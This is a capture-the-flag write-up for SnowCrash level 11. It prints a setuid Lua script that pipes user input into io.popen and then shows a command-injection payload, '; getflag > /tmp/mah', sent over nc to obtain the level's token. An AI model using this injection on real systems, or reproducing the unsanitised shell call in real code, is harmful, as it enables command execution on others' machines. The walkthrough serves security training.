

# Flag11

```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
level11@SnowCrash:~$
```
And by typing:
```
ps aux
```
I discovered this:


The program seems to wait for a password from the user, hash it with `sha1sum` and compare it (the first 40 characters) with the provided hash.

However, since the [`io.popen()`](https://www.lua.org/manual/5.1/manual.html#pdf-io.popen) function executes a command from the command line:
```
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
we can make it execute what we want:
```
level11@SnowCrash:~$ nc localhost 5151
Password: mahmoud ; getflag > /tmp/mah
Erf nope..
level11@SnowCrash:~$ cat /tmp/mah
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$ su level12
Password:
level12@SnowCrash:~$
```